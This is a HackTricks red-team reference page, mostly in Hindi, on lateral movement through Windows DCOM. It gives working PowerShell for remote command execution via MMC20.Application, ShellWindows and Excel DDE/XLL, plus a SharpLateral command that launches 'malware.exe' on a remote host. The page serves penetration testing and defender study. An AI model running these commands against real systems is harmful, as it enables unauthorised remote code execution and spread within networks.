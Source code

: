 # DCOM Exec

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MMC20.Application

**इस तकनीक के बारे में अधिक जानकारी के लिए [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) से मूल पोस्ट देखें।**

Distributed Component Object Model (DCOM) ऑब्जेक्ट्स नेटवर्क-आधारित इंटरैक्शन के लिए एक दिलचस्प क्षमता प्रस्तुत करते हैं। Microsoft DCOM और Component Object Model (COM) के लिए व्यापक दस्तावेज़ प्रदान करता है, जो [DCOM के लिए यहाँ](https://msdn.microsoft.com/en-us/library/cc226801.aspx) और [COM के लिए यहाँ](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx) उपलब्ध है। DCOM अनुप्रयोगों की एक सूची PowerShell कमांड का उपयोग करके प्राप्त की जा सकती है:
```bash
Get-CimInstance Win32_DCOMApplication
```
The COM object, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), MMC स्नैप-इन संचालन के स्क्रिप्टिंग की अनुमति देता है। विशेष रूप से, इस ऑब्जेक्ट में `Document.ActiveView` के तहत `ExecuteShellCommand` विधि शामिल है। इस विधि के बारे में अधिक जानकारी [यहां](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx) मिल सकती है। इसे चलाते हुए जांचें:

यह सुविधा एक नेटवर्क के माध्यम से DCOM एप्लिकेशन के माध्यम से कमांड निष्पादन की सुविधा प्रदान करती है। एक व्यवस्थापक के रूप में दूरस्थ रूप से DCOM के साथ बातचीत करने के लिए, PowerShell का उपयोग निम्नलिखित तरीके से किया जा सकता है:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
यह कमांड DCOM एप्लिकेशन से कनेक्ट करता है और COM ऑब्जेक्ट का एक उदाहरण लौटाता है। ExecuteShellCommand विधि को फिर दूरस्थ होस्ट पर एक प्रक्रिया निष्पादित करने के लिए बुलाया जा सकता है। प्रक्रिया में निम्नलिखित चरण शामिल हैं:

Check methods:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Get RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**इस तकनीक के बारे में अधिक जानकारी के लिए मूल पोस्ट देखें [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

**MMC20.Application** ऑब्जेक्ट को स्पष्ट "LaunchPermissions" की कमी के लिए पहचाना गया, जो व्यवस्थापकों को पहुंच की अनुमति देने वाले अनुमतियों पर डिफ़ॉल्ट होता है। अधिक विवरण के लिए, एक थ्रेड [यहां](https://twitter.com/tiraniddo/status/817532039771525120) खोजा जा सकता है, और बिना स्पष्ट Launch Permission के ऑब्जेक्ट को फ़िल्टर करने के लिए [@tiraniddo](https://twitter.com/tiraniddo) के OleView .NET का उपयोग करने की सिफारिश की गई है।

दो विशिष्ट ऑब्जेक्ट, `ShellBrowserWindow` और `ShellWindows`, को स्पष्ट Launch Permissions की कमी के कारण उजागर किया गया। `HKCR:\AppID\{guid}` के तहत `LaunchPermission` रजिस्ट्री प्रविष्टि की अनुपस्थिति स्पष्ट अनुमतियों की कमी को दर्शाती है।

###  ShellWindows
`ShellWindows` के लिए, जो ProgID की कमी है, .NET विधियाँ `Type.GetTypeFromCLSID` और `Activator.CreateInstance` इसके AppID का उपयोग करके ऑब्जेक्ट इंस्टेंटिएशन को सुविधाजनक बनाती हैं। यह प्रक्रिया `ShellWindows` के लिए CLSID प्राप्त करने के लिए OleView .NET का उपयोग करती है। एक बार इंस्टेंटिएट होने के बाद, `WindowsShell.Item` विधि के माध्यम से इंटरैक्शन संभव है, जिससे `Document.Application.ShellExecute` जैसी विधियों का आह्वान होता है।

ऑब्जेक्ट को इंस्टेंटिएट करने और दूरस्थ रूप से कमांड निष्पादित करने के लिए उदाहरण PowerShell कमांड प्रदान किए गए थे:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

Lateral movement को DCOM Excel objects का उपयोग करके प्राप्त किया जा सकता है। विस्तृत जानकारी के लिए, DCOM के माध्यम से lateral movement के लिए Excel DDE का उपयोग करने पर चर्चा पढ़ना उचित है [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) पर।

Empire प्रोजेक्ट एक PowerShell स्क्रिप्ट प्रदान करता है, जो DCOM objects को हेरफेर करके दूरस्थ कोड निष्पादन (RCE) के लिए Excel के उपयोग को प्रदर्शित करता है। नीचे [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) पर उपलब्ध स्क्रिप्ट के स्निप्पेट हैं, जो RCE के लिए Excel का दुरुपयोग करने के विभिन्न तरीकों को दर्शाते हैं:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Automation Tools for Lateral Movement

इन तकनीकों को स्वचालित करने के लिए दो उपकरणों को उजागर किया गया है:

- **Invoke-DCOM.ps1**: एक PowerShell स्क्रिप्ट जो Empire प्रोजेक्ट द्वारा प्रदान की गई है, जो दूरस्थ मशीनों पर कोड निष्पादित करने के लिए विभिन्न विधियों को बुलाने को सरल बनाती है। यह स्क्रिप्ट Empire GitHub रिपॉजिटरी पर उपलब्ध है।

- **SharpLateral**: एक उपकरण जो दूरस्थ रूप से कोड निष्पादित करने के लिए डिज़ाइन किया गया है, जिसे इस कमांड के साथ उपयोग किया जा सकता है:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Automatic Tools

* Powershell स्क्रिप्ट [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) अन्य मशीनों में कोड निष्पादित करने के लिए सभी टिप्पणी किए गए तरीकों को आसानी से लागू करने की अनुमति देती है।
* आप [**SharpLateral**](https://github.com/mertdas/SharpLateral) का भी उपयोग कर सकते हैं:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## संदर्भ

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
